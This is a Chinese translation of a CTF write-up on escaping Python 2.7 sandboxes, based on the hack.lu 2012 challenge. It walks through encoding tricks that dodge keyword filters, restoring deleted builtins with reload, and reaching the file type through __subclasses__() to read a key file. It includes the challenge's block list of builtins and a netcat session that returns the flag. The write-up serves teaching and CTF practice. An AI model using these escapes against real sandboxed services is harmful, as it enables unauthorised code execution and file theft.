

# 【技术分享】从一个CTF题目学习Python沙箱逃逸


                                阅读量   
                                **376689**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：isis.poly.edu
                                <br>原文地址：[http://blog.isis.poly.edu/ctf/exploitation%20techniques/2012/10/26/escaping-python-sandboxes/](http://blog.isis.poly.edu/ctf/exploitation%20techniques/2012/10/26/escaping-python-sandboxes/)

译文仅供参考，具体内容表达以及含义原文为准

****

[](./img/85571/t01ca6148727e60c002.jpg)

翻译：[beswing](http://bobao.360.cn/member/contribute?uid=820455891)

预估稿费：190RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿


**前言**

作为一个CTF爱好者，又是一个Bin选手，在国外各种受虐的同时，总是能学到不少的东西。最近，和师傅们在做国外的CTF题，做到一种Pwn题目，是需要选手在Python的沙箱达到逃逸的目的，获取flag。在谷歌的过程中，找到了一篇不错的博文。

<br>

**正文**

注意：这是为Python 2.7.3编写的。这些细节可能在其他版本的Python – 特别是Python3 – 有所不同！

尝试逃离沙箱总是一个有趣的挑战。Python沙箱也不例外。在静态语言中，这通常通过分析代码来查看是否调用某些函数，或者用确认验证的代码包装危险函数来完成。然而，这在动态语言（如Python）中有点更具挑战性。

沙盒的一个简单方法是扫描脚本的内容，以查找危险的特定关键字或函数，例如eval，exec，execfile和import。这可以很容易地通过编码我们的脚本来侧面攻击。[PEP-0263](http://www.python.org/dev/peps/pep-0263/)，这里有更加详细的介绍。

但只要你有# coding:&lt;encoding&gt;脚本的前两行之一，Python解释器将解释这个编码的整个脚本


```
# coding: rot_13
# "import evil_module" encoded in ROT13
'vzcbeg rivy_zbqhyr'
```

显然，我们需要一种更好的思路来进行逃逸。但是这之前，我们需要了解一些背景知识。

<br>

**背景知识**

我们知道，dir可以作为我们检Python对象的第一个工具。引用docs:“Without arguments, return the list of names in the current local scope. With an argument, attempt to return a list of valid attributes for that object.”，就是说，“ 没有参数，返回当前本地作用域中的名称列表。使用参数，尝试返回该对象的有效属性的列表。“

它并不声称是完整的，一个类可以定义一个__dir__方法，但现在我们可以假设它是正确的。

我经常使用的第二个函数是type()，简单来说，传入一个参数，它将会返回对象的类型。一旦知道一个对象的存在，使用type()你将会更充分的理解它。再次，引用文档：“ 返回对象的类型。返回值是一个类型对象。“。

那么开始我们接下来的试验。

当执行开始时，以下对象在本地作用域中（yay dir()！）：


```
&gt;&gt;&gt; dir()
['__builtins__', '__doc__', '__name__', '__package__']
```

从这些，__builtins__是最有趣。


```
&gt;&gt;&gt; type(__builtins__)
&lt;type 'module'&gt;
```

嗯，让我们看看Python语言参考： “一个模块对象有一个由字典对象实现的命名空间…属性引用被转换为这个字典中的查找，例如，m.x等同于m.dict["x"]”

现在，我们可以通过运行dir(__ builtins__)来检查内置函数。这个列表有点长。条目是所有内置类型和函数。

所以现在让我们重温前面的沙盒测试的字符串检查方法。也许你没有能力改变整个文件的编码。您仍然可以通过访问模块的底层dict，然后使用变量访问所需的函数来对单个函数调用的名称进行编码。所以让我们import os使用内置函数稍微狡猾的方式调用import：首先获取base64版本的字符串"import"和"os"：


```
&gt;&gt;&gt; import base64
&gt;&gt;&gt; base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
&gt;&gt;&gt; base64.b64encode('os')
'b3M='
```

把它放在一起：


```
&gt;&gt;&gt; __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
&lt;module 'os' from '/usr/lib/python2.7/os.pyc'&gt;
```

嗯，所以使用文本过滤到沙盒代码很明显。

也许我们可以采取另一种方法在过滤，基于使用builtins.dict。因为builtins.dict是一个代表我们的环境可用的所有内置函数的字典，如果我们修改其中一个条目，我们可以改变环境的可用内容。

例如，abs函数返回数字的绝对值：


```
&gt;&gt;&gt; abs(-1)
1
```


**尝试攻击**

现在，让我们做更多的操作


```
&gt;&gt;&gt; __builtins__.__dict__['abs'] = None
&gt;&gt;&gt; abs(-1)
Traceback (most recent call last):
File "&lt;stdin&gt;", line 1, in &lt;module&gt;
TypeError: 'NoneType' object is not callable
```

该del语句删除一个对象的引用：


```
&gt;&gt;&gt; del __builtins__.__dict__['abs']
&gt;&gt;&gt; abs(-1)
Traceback (most recent call last):
File "&lt;stdin&gt;", line 1, in &lt;module&gt;
NameError: name 'abs' is not defined
```

我们刚刚删除了环境调用的能力abs！所以现在我们有另一种方法来处理Python沙盒 – 删除许多“危险”内置函数。

让我们做一个小的危险函数列表：


```
&gt;&gt;&gt; del __builtins__.__dict__['__import__'] # __import__ is the function called by the import statement
&gt;&gt;&gt; del __builtins__.__dict__['eval'] # evaluating code could be dangerous
&gt;&gt;&gt; del __builtins__.__dict__['execfile'] # likewise for executing the contents of a file
&gt;&gt;&gt; del __builtins__.__dict__['input'] # Getting user input and evaluating it might be dangerous
```

嗯，这看起来有点安全，对吧？


```
&gt;&gt;&gt; import os
Traceback (most recent call last):
File "&lt;stdin&gt;", line 1, in &lt;module&gt;
ImportError: __import__ not found
```

等一下！

reload(module) 重新加载导入的模块，并执行代码 – 所以模块被导回到我们的命名空间。


```
&gt;&gt;&gt; reload(__builtins__)
&gt;&gt;&gt; import os
&gt;&gt;&gt; dir(os)
```

我想我们必须将其添加到列表中。

```
&gt;&gt;&gt; del __builtins__.__dict__['reload'] # they might reload __builtins__ !
```

好。所以现在我们有一个安全的方法，对吧？我们阻止了沙箱中的任何人使用危险的内置命令，并且我们可以通过不允许他们对整个文件进行编码和扫描内容来阻止他们使用eval关键字。希望我们删除所有危险的内置函数。，

让我们重温一下[2012.hack.lu](http://2012.hack.lu/index.php/CaptureTheFlag)的比赛题目，在这次挑战中，你需要读取'./key'文件的内容。

他们首先通过删除引用来销毁打开文件的内置函数。然后它们允许您执行用户输入。看看他们的代码稍微修改的版本：


```
def make_secure():
    UNSAFE = ['open',
              'file',
              'execfile',
              'compile',
              'reload',
              '__import__',
              'eval',
              'input']
    for func in UNSAFE:
        del __builtins__.__dict__[func]
from re import findall
# Remove dangerous builtins
make_secure()
print 'Go Ahead, Expoit me &gt;;D'
while True:
    try:
        # Read user input until the first whitespace character
        inp = findall('S+', raw_input())[0]
        a = None
        # Set a to the result from executing the user input
        exec 'a=' + inp
        print 'Return Value:', a
    except Exception, e:
    print 'Exception:', e
```

由于我们没有在__builtins__中引用file和open，所以常规的编码技巧是行不通的。但是也许我们可以在Python解释器中挖掘出另一种代替file或open引用的方法。

<br>

**让我们深入一点**

（对于这一部分，我要感谢[Ned Batchelder](http://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html)的分享，今年夏天我读这个博客，其中有一篇文章是针对eval函数危险性的说明。并在其代码中对eval()函数滥用的危险性做了进一步的演示。）。

将一个对象传入type()函数将返回一个type object例如：


```
&gt;&gt;&gt; type( [1,2,3] )
&lt;type 'list'&gt;
```

现在，让我们开始检查一个元组的字段：

这些都是功能。但class有点有趣。它返回表示对象的类。


```
&gt;&gt;&gt; type(().__class__)
&lt;type 'type'&gt;
```

这进入元类和元类型详细信息。更多的内容都在，[PEP 0253](http://www.python.org/dev/peps/pep-0253/)。让我们现在忽略，并深入一点。

根据文档，新式类有一些特殊的属性。具体来说，bases它包含“基类，按它们在基类列表中出现的顺序” class.subclasses()，并返回所有子类的列表。

让我们来看看我们的元组。


```
&gt;&gt;&gt; ().__class__.__bases__
(&lt;type 'object'&gt;,)
```

它直接从对象继承。我不知道还有什么：


```
&gt;&gt;&gt; ().__class__.__bases__[0].__subclasses__()
[&lt;type 'weakproxy'&gt;, &lt;type 'int'&gt;, &lt;type 'basestring'&gt;,
&lt;type 'bytearray'&gt;, &lt;type 'list'&gt;, &lt;type 'NoneType'&gt;,
&lt;type 'NotImplementedType'&gt;, &lt;type 'traceback'&gt;, &lt;type 'super'&gt;,
&lt;type 'xrange'&gt;, &lt;type 'dict'&gt;, &lt;type 'set'&gt;, &lt;type 'slice'&gt;,
&lt;type 'staticmethod'&gt;, &lt;type 'complex'&gt;, &lt;type 'float'&gt;,
&lt;type 'buffer'&gt;, &lt;type 'long'&gt;, &lt;type 'frozenset'&gt;,
&lt;type 'property'&gt;, &lt;type 'memoryview'&gt;, &lt;type 'tuple'&gt;,
&lt;type 'enumerate'&gt;, &lt;type 'reversed'&gt;, &lt;type 'code'&gt;,
&lt;type 'frame'&gt;, &lt;type 'builtin_function_or_method'&gt;,
&lt;type 'instancemethod'&gt;, &lt;type 'function'&gt;, &lt;type 'classobj'&gt;,
&lt;type 'dictproxy'&gt;, &lt;type 'generator'&gt;, &lt;type 'getset_descriptor'&gt;,
&lt;type 'wrapper_descriptor'&gt;, &lt;type 'instance'&gt;, &lt;type 'ellipsis'&gt;,
&lt;type 'member_descriptor'&gt;, &lt;type 'file'&gt;, &lt;type 'sys.long_info'&gt;,
... and more!
```

我们在这里有我们需要的一切！

然后我可以file用一些简单的行在列表中找到索引：


```
&gt;&gt;&gt; all_classes = []
&gt;&gt;&gt; for entry in ().__class__.__bases__[0].__subclasses__():
...     all_classes.append(entry.__name__)
...
&gt;&gt;&gt; all_classes.index("file")
40
```

我们不能在挑战中使用这个代码（甚至重写为列表解析），因为它包括空格。但是由于file在索引40，我们可以硬编码。


```
&gt;&gt;&gt; ().__class__.__bases__[0].__subclasses__()[40]
&lt;type 'file'&gt;
```

一旦我们引用了文件，我们所需要做的就是创建一个文件对象并读取它：


```
&gt;&gt; ().__class__.__bases__[0].__subclasses__()[40]("./key").read()
"This works"
```

所以解决题目我们需要，


```
moshe@moshe-desktop:~$ netcat ctf.fluxfingers.net 2045
Go Ahead, Expoit me &gt;;D
().__class__.__bases__[0].__subclasses__()[40]("./key").read()
().__class__.__bases__[0].__subclasses__()[40]("./key").read()
Return Value: FvibLF0eBkCBk
```

在旁注中，我们不需要在单个语句中执行 – exec在当前上下文中运行代码，因此通过将每个命令的输出存储在变量（除了a）之外，我们可以轻松地保持命令之间的状态。


```
moshe@moshe-desktop:~$ netcat ctf.fluxfingers.net 2045
Go Ahead, Expoit me &gt;;D
x=23
x=23
Return Value: 23
45
45
Return Value: 45
x
x
Return Value: 23
```


**参考连接**

另一个魔法可能是有用的：[http://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals/c1v372r](http://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals/c1v372r) 

Ned Batchelder的博文：http://nedbatchelder.com/blog/201206/eval really is_dangerous.html 

<br>

**后记**

其实发现，国内的比赛和国外的比赛，有些赛事质量真的差很多，国内很多比赛都是为了出题而出题，相反，其实国外的比赛虽然很难，但是攻克的过程中，都能学到许多的姿势。
